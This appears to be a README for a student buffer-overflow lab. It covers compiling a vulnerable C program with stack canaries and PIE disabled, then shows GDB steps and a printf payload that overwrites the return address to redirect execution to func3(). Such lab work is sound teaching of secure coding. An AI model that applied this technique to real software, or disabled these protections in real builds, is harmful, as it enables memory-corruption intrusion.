 # Buffer Overflow Vulnerability Exploitation Project

## Overview
This project demonstrates a buffer overflow vulnerability exploit using a controlled environment with a vulnerable C program (`prog.c`). It provides insights into buffer overflow mechanics, the exploitation process, and the security implications associated with this vulnerability.

## Table of Contents
1. [Project Structure](#project-structure)
2. [Requirements](#requirements)
3. [Compilation Instructions](#compilation-instructions)
4. [Attack Execution](#attack-execution)
5. [Related Attacks](#related-attacks)
6. [Documentation](#documentation)
7. [License](#license)
8. [Acknowledgments](#acknowledgments)

## Project Structure
- **`src/`**: Contains the vulnerable C program (`prog.c`) used in the exploit demonstration.
- **`docs/`**: Includes a detailed project report (`Buffer_overflow.pdf`) describing the experiment, methodology, and results.

## Requirements
To run this project, ensure you have:
- **gcc** (for compiling C programs)
- **GDB** (GNU Debugger)

## Compilation Instructions
To compile `prog.c` with specific flags that disable security protections and make exploitation feasible, use:

```bash
gcc src/prog.c -o prog -fno-stack-protector -g -no-pie
```

### Explanation of Compilation Flags
- **`-fno-stack-protector`** : Disables stack protection (stack canaries), which usually detect buffer overflows.
- **`-g`** : Includes debugging information for GDB.
- **`-no-pie`** : Disables Position Independent Executable, keeping function addresses static for easier debugging and exploitation.



## Attack Execution
Follow these steps to perform the buffer overflow attack:

1. Launch GDB:
```bash
gdb ./prog
```

2. Set Breakpoints: Use  **`br 21`** to set a breakpoint on line 21 where the overflow occurs.

3. Craft the Payload: Input characters that overflow the buffer, followed by the address of the target function **`func3()`**.

4. Run the Exploit: Execute the payload:

```bash
printf '23 BBBBBBBBBBBBBBBBBB\x97\x11\x40' > input.txt
gdb -q -ex "r < ./input.txt" prog
```

5. Observe Output: Check that the program redirects execution to **`func3()`** and prints the output **`"Inside func3"`**.

### For more details, refer to the full project report in the **`docs/`** directory.

## Related Attacks
This project also examines similar vulnerabilities that can be exploited using buffer overflows:

+ Stack Smashing: Overflowing stack buffers to overwrite the return address.
+ Heap Overflow: Overflowing buffers in the heap to corrupt memory.
+ Format String Attack: Exploiting format strings to access or manipulate memory.
+ Return-to-libc Attack: Redirecting program execution to functions in the libc library.
+ Denial-of-Service (DoS): Crashing or hanging the system by overflowing buffers.
## Documentation
For a comprehensive explanation of the project methodology, attack steps, and observations, see the Buffer Overflow Project Report in the docs/ folder.

## License
This project is licensed under the MIT License - see the **`LICENSE/`** file for details.

## Acknowledgments
This project was undertaken as part of a security-focused study on buffer overflow vulnerabilities, contributing to a broader understanding of secure coding practices and exploit prevention.